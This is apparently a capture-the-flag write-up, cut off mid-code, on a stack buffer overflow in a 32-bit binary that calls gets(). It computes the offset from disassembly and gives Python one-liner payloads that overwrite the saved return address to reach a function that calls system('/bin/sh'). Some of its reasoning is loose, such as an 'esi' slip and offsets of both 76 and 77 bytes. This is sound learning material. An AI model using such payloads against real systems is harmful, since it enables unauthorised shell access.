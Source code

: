 The **frame pointer** (ebp) is 4 bytes as well as the **return address**, and the **stack alignment** is 8 bytes. Hence the size of the buffer (assuming its the only local variable) will be the address of esp - ebp, and the length needed to overwrite the return address (eip) for a buffer overflow attack will be the size of the buffer + frame pointer + stack alignment.


lets look at the assmebly again ;
```
 8048486:       83 ec 50                sub    esp,0x50
 8048489:       8d 44 24 10             lea    eax,[esp+0x10]
 804848d:       89 04 24                mov    DWORD PTR [esp],eax
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 ```


from the snippet above, we can see that the stack allocated 0x50 bytes using the sub opcpde, however its not the case according to this [article](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow3.html) where the system actually allocates to the nearest power of 2 for alignment. But at least we know our buffer size is less than 0x50 now.

In the next line, we can see that `lea    eax,[esp+0x10]` is loading the current esi address - 0x10 (stack grows downwards) to eax, to prepare the `gets` call. And according to gets manual, the argument accepts will be a buffer. Hence the size of the buffer can be deduced as `0x50 - 0x10` = 64 in decimal.

To overwrite the eip, we need to have at least 64 + 8 + 4 + 1 = 77 bytes of data.

` python -c "print('B' * 77)" > /tmp/test` to get the test input to overwrite eip.

![image](https://hackmd.io/_uploads/r1jnNAh46.png)

As we can see, the last two bytes of the saved eip is now 42. But what do we replace the saved EIP with? Remeber the run function earlier? The address is `0x8048444`. We can change our input file to `python -c "print('B' * 76 + '\x44\x84\x04\x08')" > /tmp/test` to test. (inverted address cuz little endian)

We're kinda there now, looks like we need to look at the `run` function to see what it does

![image](https://hackmd.io/_uploads/H17_UC24T.png)


![image](https://hackmd.io/_uploads/rkDtD0n4T.png)
For the arguments to fwrite, they are passing in `fwrite("Good... Wait what?", 0x1, 0x13, stdout)`.
for the args to system, they are `system("/bin/sh")`.

But why I dont get a shell? Prehaps its not execve? 
Upon looking at the man page, I see that
> system() executes a command specified in command by calling /bin/sh -c command

With that said, the source of the bianry should look like
```clike=
#include <stdio.h>
#include <stdlib.h>

# define MSG "Good... Wait what?"
# define SHELL "/bin/sh"
    
//0x8048444 
void run()
{
    // 0x804846d
    fwrite(MSG , 0x1, 0x13, stdout);
    
    // 0x8048479
    system(SHELL);
}
    
int main()
{
```